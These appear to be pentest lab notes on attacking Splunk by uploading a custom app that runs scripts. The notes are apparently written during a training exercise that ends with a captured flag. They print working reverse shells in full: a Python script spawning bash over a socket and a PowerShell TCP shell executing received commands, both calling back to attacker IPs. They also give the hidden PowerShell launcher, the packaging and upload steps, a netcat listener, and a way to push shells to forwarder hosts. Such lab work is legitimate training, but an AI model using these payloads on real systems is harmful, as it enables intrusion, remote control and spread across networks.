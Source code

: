 # Attacking Splunk

We can gain remote code execution on Splunk by creating a custom application to run Python, Batch, Bash, or PowerShell scripts.

## Abusing Built-In Functionality

1) Download shells

mkdir splunk_shell
cd splunk_shell
git clone https://github.com/0xjpuff/reverse_shell_splunk

The bin directory in this repo has examples for Python and PowerShell :

tree reverse_shell_splunk/
reverse_shell_splunk/
├── README.md
└── reverse_shell_splunk
    ├── bin
    │   ├── rev.py
    │   ├── run.bat
    │   └── run.ps1
    └── default
        └── inputs.conf


cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10

vi run.bat

@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit

2) Change IP on Linux and Windows shells

vi reverse_shell_splunk/reverse_shell_splunk/bin/rev.py

import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')

vi reverse_shell_splunk/reverse_shell_splunk/bin/run.ps1

#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.139',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()




3) Create malicious app

tar -cvzf updater.tar.gz reverse_shell_splunk/reverse_shell_splunk/
reverse_shell_splunk/reverse_shell_splunk/
reverse_shell_splunk/reverse_shell_splunk/default/
reverse_shell_splunk/reverse_shell_splunk/default/inputs.conf
reverse_shell_splunk/reverse_shell_splunk/bin/
reverse_shell_splunk/reverse_shell_splunk/bin/run.ps1
reverse_shell_splunk/reverse_shell_splunk/bin/run.bat
reverse_shell_splunk/reverse_shell_splunk/bin/rev.py


3) Upload the app

https://10.129.201.50:8000/en-US/manager/search/apps/local
Install app from file 
Upload the application

4) Start a listner

sudo nc -lnvp 443
listening on [any] 443 ...

If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the $SPLUNK_HOME/etc/deployment-apps directory on the compromised host. 

## LAB

https://10.129.239.161:8000/en-GB/account/login?return_to=%2Fen-GB%2Fapp%2Flauncher%2Fhome

https://10.129.239.161:8000/en-GB/manager/launcher/apps/local

git clone https://github.com/0xjpuff/reverse_shell_splunk

vi reverse_shell_splunk/reverse_shell_splunk/bin/run.ps1

#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.139',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

tar -cvzf updater.tar.gz reverse_shell_splunk/reverse_shell_splunk/

reverse_shell_splunk/reverse_shell_splunk/
reverse_shell_splunk/reverse_shell_splunk/default/
reverse_shell_splunk/reverse_shell_splunk/default/inputs.conf
reverse_shell_splunk/reverse_shell_splunk/bin/
reverse_shell_splunk/reverse_shell_splunk/bin/run.ps1
reverse_shell_splunk/reverse_shell_splunk/bin/run.bat
reverse_shell_splunk/reverse_shell_splunk/bin/rev.py

--> failed because of intermediate directory

mv reverse_shell_splunk/ todelete
mv todelete/reverse_shell_splunk/ reverse_shell_splunk
rmdir todelete/
mv reverse_shell_splunk/ shell/


sudo nc -lnvp 443


tar -cvzf updater2.tar.gz shell/
shell/
shell/default/
shell/default/inputs.conf
shell/bin/
shell/bin/run.ps1
shell/bin/run.bat
shell/bin/rev.py

sudo nc -lnvp 443


PS C:\Windows\system32> type c:\loot\flag.txt
l00k_ma_no_AutH!
